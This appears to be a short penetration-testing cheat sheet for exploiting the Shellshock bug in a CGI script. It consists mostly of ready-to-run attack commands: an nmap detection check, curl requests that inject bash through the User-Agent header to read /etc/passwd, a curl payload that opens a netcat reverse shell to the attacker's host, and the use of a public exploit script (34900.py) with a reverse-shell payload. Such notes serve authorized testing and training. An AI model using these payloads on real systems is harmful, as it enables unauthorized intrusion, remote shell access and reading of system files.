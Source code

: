 https://www.sevenlayers.com/index.php/125-exploiting-shellshock
Nikto:
`/cgi-bin/admin.cgi`
Check with nmap:
```bash - kali
nmap $TARGET -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
exploit with curl:
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET/cgi-bin/admin.cgi
```
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/nc -e /bin/bash $KALI 443" http://$TARGET/cgi-bin/admin.cgi
```
Or use
exploit 34900.py
```bash - kali
searchsploit -m 34900
```
May need to manually edit exploit to include cgi-bin target:
```bash - kali
python 34900.py payload=reverse rhost=$TARGET lhost=$KALI lport=444
```
